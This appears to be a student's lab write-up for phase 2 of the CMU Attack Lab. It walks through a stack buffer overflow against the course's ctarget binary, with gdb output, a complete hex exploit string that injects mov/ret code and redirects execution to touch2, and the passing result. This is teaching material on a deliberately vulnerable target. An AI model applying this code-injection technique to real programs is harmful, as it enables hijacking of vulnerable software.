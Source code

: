 - We can't insert the exploit code into `getbuf` stack frame, because when `ret` is executed, the stack frame has been released by increasing the value of `%rsp`

- Therefore, we insert the exploit code which contains `mov` and `ret` instructions at the address of the return address in `launch` stack frame
    - `rsp` is `0x5561dc78`

        ```
        (gdb) print /x $rsp
        $1 = 0x5561dc78
        ```

    - The address is `%rsp + 0x28 + 0x8 +0x8 = 0x5561dcb0`

        ```
        (gdb) x/gx 0x5561dcb0
        0x5561dcb0:     0x0000000000401f24
        ```

- The exploit code is to move cookie value to register `%rdi` which is shown in [mov_rdi.s](./target1/phase_2/mov_rdi.s) and `ret` instruction

    ```
    gcc -c mov_rdi.s
    objdump -d mov_rdi.o > mov_rdi.d
    ```

- We insert the `touch2` function first instruction address to the stack frame in `test` function

- After the `getbuf` executes `ret` instruction, the code transfers the control to the exploit code, executes `mov` and `ret` instructions, and transfers the control to `touch2`

- The phase 2 exploit string is

    ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    b0 dc 61 55 00 00 00 00 /* position of return address of launch function */
    ec 17 40 00 00 00 00 00 /* touch2 first instruction address */
    bf fa 97 b9 59 c3 00 00 /* mov $0x59b997fa,%edi  ret */
    ```

- The result is 

    ```
    LD_PRELOAD=./printf.so ./ctarget -q -i phase_2/phase_2_exploit_raw.txt 

    Cookie: 0x59b997fa
    Touch2!: You called touch2(0x59b997fa)
    Valid solution for level 2 with target ctarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:ctarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 B0 DC 61 55 00 00 00 00 EC 17 40 00 00 00 00 00 BF FA 97 B9 59 C3 00 00 
    ```
